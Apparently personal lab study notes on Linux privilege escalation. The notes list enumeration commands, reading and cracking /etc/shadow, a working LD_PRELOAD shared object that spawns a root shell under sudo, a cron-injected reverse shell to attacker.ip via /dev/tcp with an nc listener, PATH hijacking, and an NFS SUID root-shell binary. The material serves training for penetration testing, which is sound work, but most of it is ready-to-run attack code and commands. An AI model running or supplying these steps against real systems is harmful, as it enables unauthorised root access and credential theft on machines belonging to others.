 
#### Enumeration
* `hostname`
* `uname -a`
* `cat /proc/version`
* `cat /etc/issue`
* `ps -A`
* `ps axjf` - tree view
* `ps aux` - all processes
* `env`
* `sudo -l`
* `id <username>`
* `cat /etc/passwd` - list of users
* `cat /etc/shadow` - password hashes
	* `unshadow /etc/passwd /etc/shadow > combined.txt`
	* `jonh --wordlist=/usr/share/wordlists/rockyou.txt combined.txt`
* `history`
* `ifconfig`
* `ip route`
* `netstat -a` - all open ports, `netstat -at` or `netstat -au` - tcp/udp, `nestat -l` - listening mode
* `netstat -tp`: list connections with the service name and PID information
* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
* `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit
##### Automated tools
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
#### Kernel exploits
* https://github.com/The-Z-Labs/linux-exploit-suggester
* https://www.cvedetails.com/
* https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
#### sudo
* run `sudo -l`
* Check binaries at https://gtfobins.github.io/

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
	```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/

#### SUID
1. c will list files that have SUID or SGID bits set.
2. Check gtfobins

#### Capabilities
1. `getcap -r /`
2. Check gtfobins

#### Cron
1. `cat /etc/crontab`
2. Modify available cron script and add your code there: 
```bash
bash -i >& /dev/tcp/attacker.ip/6666 0>&1   
```
3. Listen on attacker machine: `nc -nlvp 6666`

#### PATH
 If we type “thm” to the command line, these are the locations Linux will look in for an executable called thm. The scenario below will give you a better idea of how this can be leveraged to increase our privilege level. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.
1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?
![[Pasted image 20250118162215.png]]
Find writable dirs:
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
![[Pasted image 20250118162417.png]]
![[Pasted image 20250118162441.png]]

#### NFS

List mountable devices `cat /etc/exports`

On attacker machine: 
`showmount -e <ip>`
`mount -o rw <ip>:/backups /tmp/bd`

Create executable with SUID set and run on attacker machine:
```c
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```

## tar unarchive wildcard
https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com

## Misc
* `ss -tunlp` to find hidden ports
* sudo -l
* crontabs
* winpeas & inpeas 